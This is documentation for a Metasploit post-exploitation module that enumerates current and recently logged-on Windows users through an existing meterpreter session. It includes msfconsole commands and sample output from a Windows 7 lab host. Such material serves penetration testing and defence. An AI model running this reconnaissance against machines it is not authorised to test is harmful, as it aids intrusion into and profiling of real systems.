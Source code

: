 
## Vulnerable Application

This module will enumerate current and recently logged on Windows users.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/enum_logged_on_users```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **CURRENT**

  Enumerate currently logged on users.

  **RECENT**

  Enumerate Recently logged on users.

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49196) at 2019-12-13 04:36:54 -0700

  msf exploit(multi/handler) > use post/windows/gather/enum_logged_on_users
  msf post(windows/gather/enum_logged_on_users) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_logged_on_users) > run

  [*] Running against session 1

    Current Logged Users
    ====================

    SID                                            User
    ---                                            ----
    S-1-5-21-3113421791-4205713440-112141152-1000  TEST-PC\TEST


    [+] Results saved in: /root/.msf4/loot/20191213054456_default_192.168.1.10_host.users.activ_424278.txt

    Recently Logged Users
    =====================

    SID                                            Profile Path
    ---                                            ------------
    S-1-5-18                                       %systemroot%\system32\config\systemprofile
    S-1-5-19                                       C:\Windows\ServiceProfiles\LocalService
    S-1-5-20                                       C:\Windows\ServiceProfiles\NetworkService
    S-1-5-21-3113421791-4205713440-112141152-1000  C:\Users\TEST


    [*] Post module execution completed
  ```
